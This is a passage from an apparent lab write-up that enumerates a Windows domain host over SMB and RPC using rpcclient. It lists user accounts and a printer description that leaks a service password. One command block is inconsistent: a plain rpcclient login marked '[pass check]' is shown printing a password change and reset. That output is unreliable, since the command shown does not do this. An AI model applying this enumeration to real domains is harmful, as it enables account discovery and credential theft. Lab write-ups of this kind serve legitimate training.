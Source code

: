 I’ll connect to the `print$` share and see what’s there. Unfortunately, there’s not much of use. There’s a bunch of libraries (`.dll`), and there printer driver and config information.

#### RPC

With nothing interesting on SMB, I switched to RPC. I’ll connect using the one-liner:

```

root@kali# [pass check] rpcclient -U bhult%${pass} 10.10.10.193
Password changed for user bhult on 10.10.10.193.
password reset to OGY4NzY.
rpcclient $> 

```

I can get a list of users and some basic details using `querydispinfo`:

```

rpcclient $> querydispinfo
index: 0xfbc RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x109c RID: 0x1db2 acb: 0x00000210 Account: astein       Name: (null)    Desc: (null)
index: 0x1099 RID: 0x1bbd acb: 0x00020010 Account: bhult        Name: (null)    Desc: (null)
index: 0x1092 RID: 0x451 acb: 0x00020010 Account: bnielson      Name: (null)    Desc: (null)
index: 0x109a RID: 0x1bbe acb: 0x00000211 Account: dandrews     Name: (null)    Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
index: 0x109d RID: 0x1db3 acb: 0x00000210 Account: dmuir        Name: (null)    Desc: (null)
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x109b RID: 0x1db1 acb: 0x00000210 Account: mberbatov    Name: (null)    Desc: (null)
index: 0x1096 RID: 0x643 acb: 0x00000210 Account: pmerton       Name: (null)    Desc: (null)
index: 0x1094 RID: 0x641 acb: 0x00000210 Account: sthompson     Name: (null)    Desc: (null)
index: 0x1091 RID: 0x450 acb: 0x00000210 Account: svc-print     Name: (null)    Desc: (null)
index: 0x1098 RID: 0x645 acb: 0x00000210 Account: svc-scan      Name: (null)    Desc: (null)
index: 0x1095 RID: 0x642 acb: 0x00020010 Account: tlavel        Name: (null)    Desc: (null)

```

I updated my list of users with this list.

Given the theme of the box, I’ll also enumerate printers:

```

rpcclient $> enumprinters
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]

```
